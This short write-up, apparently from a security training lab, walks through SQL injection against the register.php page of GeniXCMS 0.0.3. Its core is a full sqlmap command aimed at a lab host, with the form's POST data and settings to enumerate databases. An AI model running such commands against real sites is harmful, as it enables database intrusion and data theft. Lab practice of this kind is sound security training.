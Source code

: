 1-search on website about ```GeniXCMS 0.0.3```

2-you see the poc on register.php 

3- take the url on sqlmap with this command 
```
sqlmap -u 'https://3s8wwm7ze3b151a2tqein4fdx.eu-central-6.attackdefensecloudlabs.com/register.php' --batch --technique=BEUSTQ  --dbs --level=4 --risk=2 --data 'userid=abdo&pass1=qwert&pass2=qwert&email=abdo%40gmail.com&token=UTdi5cSTFNnPxVFp9bbo30QaNJCWrBUi3B2eWG0i4DL1dTecDwGWHceNJIzf354qv7El8UzKYBcyYQpw&register='
```

